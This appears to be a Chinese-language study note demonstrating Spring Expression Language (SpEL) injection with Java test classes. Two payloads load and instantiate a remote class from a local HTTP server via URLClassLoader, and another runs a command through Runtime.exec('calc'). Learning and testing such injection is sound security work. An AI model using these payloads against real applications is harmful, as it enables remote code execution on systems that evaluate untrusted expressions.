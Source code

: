 ```java
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import javax.script.*;

public class Spelvultest {
    public static void main(String[] args) {
        String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8000/')}).loadClass(\"exp\").getConstructors()[0].newInstance()";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
优化
```java
package org.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import javax.script.*;

public class Spelvultest {
    public static void main(String[] args) {
        String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8000/')}).loadClass(\"exp\").newInstance()";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
python起个http。

<a name="l58pt"></a>
## classloader
```java
package org.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import javax.script.*;

public class Spelvultest {
    public static void main(String[] args) {
        //String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8000/')}).loadClass(\"exp\").newInstance()";
        String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
<a name="RkzYw"></a>
## 其他姿势
```java
```